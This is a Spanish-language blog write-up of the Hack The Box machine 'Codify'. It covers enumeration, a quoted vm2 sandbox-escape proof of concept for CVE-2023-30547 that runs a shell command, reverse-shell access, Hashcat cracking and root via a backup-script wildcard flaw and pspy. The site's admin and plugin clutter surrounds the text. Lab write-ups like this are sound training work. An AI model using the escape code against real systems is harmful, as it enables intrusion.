


  

# Por favor, espera. Copia en progreso...

If you’re making a lot of copies it can take a while  
(up to 5 minutes if you’re on a slow server).

El tiempo promedio es de 8 copias por segundo.


We value your privacy

We use cookies to enhance your browsing experience, serve personalized ads or content, and analyze our traffic. By clicking "Accept All", you consent to our use of cookies.

Customize Reject All Accept All

Customize Consent Preferences 

We use cookies to help you navigate efficiently and perform certain functions. You will find detailed information about all cookies under each consent category below.

The cookies that are categorized as "Necessary" are stored on your browser as they are essential for enabling the basic functionalities of the site. ... Show more

NecessaryAlways Active

Necessary cookies are required to enable the basic features of this site, such as providing secure log-in or adjusting your consent preferences. These cookies do not store any personally identifiable data.

No cookies to display.

Functional

Functional cookies help perform certain functionalities like sharing the content of the website on social media platforms, collecting feedback, and other third-party features.

No cookies to display.

Analytics

Analytical cookies are used to understand how visitors interact with the website. These cookies help provide information on metrics such as the number of visitors, bounce rate, traffic source, etc.

No cookies to display.

Performance

Performance cookies are used to understand and analyze the key performance indexes of the website which helps in delivering a better user experience for the visitors.

No cookies to display.

Advertisement

Advertisement cookies are used to provide visitors with customized advertisements based on the pages you visited previously and to analyze the effectiveness of the ad campaigns.

No cookies to display.

Reject All Save My Preferences Accept All

- [Acerca de WordPress](https://marcosjurado.com/wp-admin/about.php)
    
    - [Acerca de WordPress](https://marcosjurado.com/wp-admin/about.php)
    - [Únete](https://marcosjurado.com/wp-admin/contribute.php)
    
    - [WordPress.org](https://es.wordpress.org/)
    - [Documentación](https://wordpress.org/documentation/)
    - [Aprende WordPress](https://learn.wordpress.org/)
    - [Soporte](https://es.wordpress.org/support/)
    - [Sugerencias](https://es.wordpress.org/support/forum/comunidad/peticiones-y-feedback/)
    
- [Marcos Jurado](https://marcosjurado.com/wp-admin/)
    
    - [Escritorio](https://marcosjurado.com/wp-admin/)
    - [Plugins](https://marcosjurado.com/wp-admin/plugins.php)
    
    - [Temas](https://marcosjurado.com/wp-admin/themes.php)
    
- [Editar sitio](https://marcosjurado.com/wp-admin/site-editor.php?postType=wp_template&postId=twentytwentythree//single&canvas=edit)
- [33 actualizaciones disponibles](https://marcosjurado.com/wp-admin/update-core.php)
- [00 comentarios en moderación](https://marcosjurado.com/wp-admin/edit-comments.php)
- [Añadir](https://marcosjurado.com/wp-admin/post-new.php)
    
    - [Entrada](https://marcosjurado.com/wp-admin/post-new.php)
    - [Medio](https://marcosjurado.com/wp-admin/media-new.php)
    - [Página](https://marcosjurado.com/wp-admin/post-new.php?post_type=page)
    - [Página de destino](https://marcosjurado.com/wp-admin/edit.php?action=elementor_new_post&post_type=e-landing-page&template_type=landing-page&_wpnonce=34713479b4#library)
    - [Plantilla](https://marcosjurado.com/wp-admin/post-new.php?post_type=elementor_library)
    - [Usuario](https://marcosjurado.com/wp-admin/user-new.php)
    
- [Copiar esta](https://marcosjurado.com/codify/#)
- [Editar la entrada](https://marcosjurado.com/wp-admin/post.php?post=378&action=edit)
- [Site Kit](https://marcosjurado.com/codify/#)
    
    El plugin Site Kit by Google necesita que esté activado JavaScript en tu navegador.
    
- [
    
    
    
    ](https://marcosjurado.com/wp-admin/admin.php?page=stats)

- [Avisos](https://wordpress.com/notifications)
    
    Avisos
    
- [Hola, marcosjurado](https://marcosjurado.com/wp-admin/profile.php)
    
    - [.png)marcosjuradoEditar perfil](https://marcosjurado.com/wp-admin/profile.php)
    - [Salir](https://marcosjurado.com/wp-login.php?action=logout&_wpnonce=675479bef5)
    
- Buscar
    

[Saltar al contenido](https://marcosjurado.com/codify/#wp--skip-link--target)

[](https://marcosjurado.com/)

- [Home](https://marcosjurado.com/)
- [Whoami](https://marcosjurado.com/whoami/)
- [WriteUps](https://marcosjurado.com/category/writeups/)
    - [Hack The Box](https://marcosjurado.com/category/writeups/hack-the-box/)
- [Tutoriales](https://marcosjurado.com/category/tutoriales/)

# Codify


Codify es una máquina que aloja un sitio web para revisar código Node.js en un servidor web. Podemos conseguir un punto de apoyo en el sistema objetivo mediante la explotación de una vulnerabilidad de una librería JavaScript que el sitio utiliza para la revisión de código. Una vez dentro debemos movernos lateralmente hacia otro usuario gracias al hallazgo de un hash ubicado dentro de un fichero en el sistema y realizando su desencriptado. Finalmente, debemos escalar privilegios realizando fuerza bruta sobre un script encontrado en el sistema o, también, usando la herramienta PSPY que nos permitirá capturar la contraseña del usuario root.

### **Enumeración**

#### Nmap

El escaneo de puertos nos arroja la existencia de servicios como **SSH**, **HTTP** y un servicio **HTTP** alojado en el puerto 3000.


#### HTTP 3000/TCP

El puerto 3000 nos aporta mucha curiosidad, por lo que nos dirigimos hacia él mediante el navegador. El sitio nos muestra un editor de código para testear código escrito en lenguaje Node.js:


Si nos dirigimos a la sección «About us» podemos obtener más información sobre el sitio y entender mejor su funcionamiento. Asimismo podemos ver que el editor utiliza una librería de **JavaScript** llamada **vm2**.


Si clicamos en el enlace, podemos comprobar que se está usando la versión **3.9.16**. Realizando una búsqueda por los motores de búsqueda podemos comprobar que existe una vulnerabilidad para esta versión registrada como **[CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)**:


Existe un **[proof of concept](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m)** de esta vulnerabilidad que nos sugiere el uso del siguiente código, el cual nos permite la ejecución de código arbitrario en el sistema objetivo:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo pwned');
}
`

console.log(vm.run(code));
```

Si volvemos al sitio web y probamos el código podemos comprobar que se muestra por pantalla la palabra pwned, por lo tanto, la ejecución de comandos se está realizando correctamente.


### **Usuario svc**

Ahora es hora de introducir un payload para obtener una reverse shell:


Una vez obtenido la shell en el sistema objetivo y estabilizarla, nos encontramos con que somos el usuario svc y que existe un usuario llamado joshua el cual no podemos acceder a su directorio dentro del Home.


### **Usuario joshua**

Después de realizar una enumeración del sistema nos encontramos que existe un archivo llamado **tickets.db** dentro de la carpeta **/var/www**. Este archivo parece contener el nombre de joshua (el cual no tenemos acceso) y lo que parece ser un hash.


Así que nos dirigimos a copiar el hash y tratar de desencriptarlo en nuestro host de ataque mediante el uso de **Hashcat**:


Por suerte, logramos desencriptar la contraseña, cambiar de usuario hacia joshua y leer la bandera user.txt.



### **Escalada de privilegios**

Rápidamente, comprobamos comandos que el usuario puede ejecutar con permisos root y nos entramos con que puede ejecutar un script que aparentemente realiza una copia de seguridad de la base de datos **MYSQL**.


Realizando la revisión de código de este script nos encontramos con que en primer lugar se hace una comprobación de la contraseña ubicada en el directorio de root con la contraseña que introduzcamos al ejecutar el script y, a continuación, si la contraseña introducida es válida se procede a realizar la copia de seguridad usando la contraseña root.


Si iniciamos el script y probamos cualquier contraseña, nos devuelve un mensaje de fallo de contraseña y se paraliza la ejecución del script. Pero, si usamos el comodín «*» la lógica del script da por buena la contraseña y sigue con su ejecución.


En este momento tenemos dos opciones:

1. Desarrollar un script para realizar fuerza bruta sobre la contraseña.
2. Utilizar **PSPY** para capturar la contraseña durante la ejecución del script.

Nosotros optamos por utilizar **PSPY**. Así que subimos el binario **PSPY64** en la máquina víctima y lo ejecutamos.


A continuación, ejecutamos el script introduciendo el comodín:



¡Y conseguimos la contraseña!


Ahora, tratamos de usar la contraseña filtrada gracias a **PSPY** intentando cambiar hacia el usuario root, y finalmente, ¡conseguimos la bandera root.txt!


---

##### ¡Gracias por vuestro apoyo!  
Sígueme para más contenido

---

[Hack The Box](https://marcosjurado.com/category/writeups/hack-the-box/), [Machines](https://marcosjurado.com/category/writeups/hack-the-box/machines/), [WriteUps](https://marcosjurado.com/category/writeups/)

[code review](https://marcosjurado.com/tag/code-review/), [CVE-2023-30547](https://marcosjurado.com/tag/cve-2023-30547/), [hashcat](https://marcosjurado.com/tag/hashcat/), [javascript library](https://marcosjurado.com/tag/javascript-library/), [mysql](https://marcosjurado.com/tag/mysql/), [nmap](https://marcosjurado.com/tag/nmap/), [node.js](https://marcosjurado.com/tag/node-js/), [pspy](https://marcosjurado.com/tag/pspy/), [vm2](https://marcosjurado.com/tag/vm2/)

[Marcos Jurado](https://marcosjurado.com/)

© 2024 Copyright

- [LinkedIn](https://www.linkedin.com/in/marcosjurado/)
- [X](https://twitter.com/0xRh4ps00dy)
- [GitHub](https://github.com/0xRh4ps00dy)

 


¡La copia ha funcionado!

Sin embargo, notamos cierto potencial de optimización en tu servidor.

**Por favor**, copia los siguientes registros [en el foro](https://wordpress.org/support/plugin/copy-delete-posts/#new-topic-0) para que podamos hacer el plugin aún mejor (¡gratis!)

The OS: Linux PHP Version: 7.4.28 WP Version: 6.6.2 MySQL Version: 8.0.39 Directory Separator: / Copy logs: 21-04-2024 08:00:22 - 1x, [total: 0.15213584899902, avg: 0.15213584899902] (mem: 11.64 MB - 12201648, peak: 2 MB - 2097152) 21-04-2024 07:56:31 - 1x, [total: 0.21652412414551, avg: 0.21652412414551] (mem: 14.55 MB - 15259640, peak: 8 MB - 8388608) 20-04-2024 07:51:41 - 1x, [total: 0.08299708366394, avg: 0.08299708366394] (mem: 11.61 MB - 12176984, peak: 4 MB - 4194304) 08-04-2024 08:04:41 - 1x, [total: 0.096487998962402, avg: 0.096487998962402] (mem: 11.53 MB - 12088496, peak: 4 MB - 4194304)

Copiar los registros

[

Ir al foro

](https://wordpress.org/support/plugin/copy-delete-posts/#new-topic-0)

¿Problemas para acceder aquí?

No, no quiero ayudarte a mejorar el plugin.

De acuerdo, ¡hecho!

                                              

## Elementos a copiar:

Usar como ajustes base

–– Seleccionar –– Seleccionar todo Iniciar de nuevo Personalizado Por defecto

Seleccionar todo

- –– Seleccionar ––
- Seleccionar todo
- Iniciar de nuevo
- Personalizado
- Por defecto

 Título Fecha  Estado  Slug

 Extracto Contenido  Imagen destacada  Plantilla

 Formato Autor  Contraseña  Secundarias

 Comentarios Orden del menú  Adjuntos  Categorías

 Etiquetas Taxonomías  Menús de navegación  Categorías de enlaces

**Opciones del plugin:**  
 Todos los meta de las entradas

Copiar 

 veces

 to

este sitio

este sitio

- este sitio

Hacer más de 50 copias tardará un tiempo. Dependiendo de tu servidor.

¡Copiarlo!